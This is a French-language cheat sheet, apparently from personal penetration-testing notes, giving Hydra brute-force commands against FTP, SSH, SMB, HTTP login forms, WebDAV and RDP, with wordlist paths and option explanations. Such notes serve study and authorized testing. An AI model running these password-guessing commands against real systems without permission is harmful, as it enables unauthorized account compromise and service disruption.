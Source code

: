 # 🔨 Hydra - Bruteforce Tool

[← Retour à la table des matières](../README.md)

## Syntaxe générale
```bash
hydra [options] target service
```

## Exemples par service

### FTP
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ftp
hydra -l root -P /root/Desktop/wordlists/unix_passwords.txt ftp://targetIP:5554
```

### SSH
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

### SMB
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt smb://targetIP
```

### HTTP
```bash
hydra -L users.txt -P passwords.txt targetIP http-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### WebDAV
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/
```

### RDP
```bash
# Réduire la vitesse (-t 1) pour éviter de shutdown le service
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://targetIP -s 3389 -t 1 -V
```

## Options utiles
- `-L` : Liste d'utilisateurs
- `-l` : Utilisateur unique
- `-P` : Liste de mots de passe
- `-p` : Mot de passe unique
- `-t` : Nombre de threads
- `-V` : Mode verbose